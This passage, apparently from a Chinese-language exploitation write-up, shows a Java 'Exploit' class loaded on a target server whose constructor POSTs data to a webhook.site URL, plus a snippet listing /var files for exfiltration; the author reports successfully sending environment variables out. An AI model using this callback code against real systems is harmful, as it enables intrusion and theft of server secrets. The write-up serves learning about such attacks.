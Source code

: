 發現 server 收到 request 了！所以 class 確實有被執行，只是不明原因沒辦法直接 `Runtime.getRuntime().exec`。

我的程式碼大概長這樣：

``` java
import java.io.*;
import java.net.*;
import java.util.*;

public class Exploit{
    public Exploit() throws Exception {
        String str = "test";
        URL url = new URL("https://webhook.site/bad84752-95a1-45c4-8395-e5577ea1112b");
        Map<String,Object> params = new LinkedHashMap<>();
        params.put("msg", str);
        StringBuilder postData = new StringBuilder();
        for (Map.Entry<String,Object> param : params.entrySet()) {
            if (postData.length() != 0) postData.append('&');
            postData.append(URLEncoder.encode(param.getKey(), "UTF-8"));
            postData.append('=');
            postData.append(URLEncoder.encode(String.valueOf(param.getValue()), "UTF-8"));
        }
        byte[] postDataBytes = postData.toString().getBytes("UTF-8");

        HttpURLConnection conn = (HttpURLConnection)url.openConnection();
        conn.setRequestMethod("POST");
        conn.setRequestProperty("Content-Type", "application/x-www-form-urlencoded");
        conn.setRequestProperty("Content-Length", String.valueOf(postDataBytes.length));
        conn.setDoOutput(true);
        conn.getOutputStream().write(postDataBytes);
        Reader in = new BufferedReader(new InputStreamReader(conn.getInputStream(), "UTF-8"));
    }

    public static void main(String[] args) throws Exception {
    }
}
```

後來我嘗試了讀取環境變數送到 server，成功，嘗試讀取 `/` 底下的檔案列表，失敗。因為不知道失敗的原因，所以加了一段 try catch，像這樣：

``` java
String str = "";
try{      
  File f = new File("/var");
  File[] paths = f.listFiles();
  str = paths.toString();
  for (int i = 0; i < paths.length; i++) {
    str += paths[i].toString() + ",";
  }
 
} catch(Exception e){
   str = e.toString() + "," + e.getMessage();
}
```
